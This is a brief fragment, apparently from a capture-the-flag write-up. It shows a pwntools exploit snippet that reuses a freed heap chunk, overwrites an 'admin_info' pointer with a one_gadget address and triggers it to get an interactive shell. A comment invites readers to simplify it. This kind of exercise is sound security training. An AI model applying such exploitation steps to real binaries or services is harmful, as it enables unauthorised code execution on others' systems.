 ```py
p.sendlineafter("Choice: ", "2")			# reuse buf chunk
payload = b"A" * 8 + p64(one_gadget)			# overwrite admin_info to one_gadget
p.sendlineafter("What is your name: ", payload)
p.sendlineafter("Choice: ", "3")			# call one_gadget

# shell
p.interactive()
```

<br>

_there were many redundant steps in the exploit that can be simplified, do feel free to simplify the exploit yourself!_
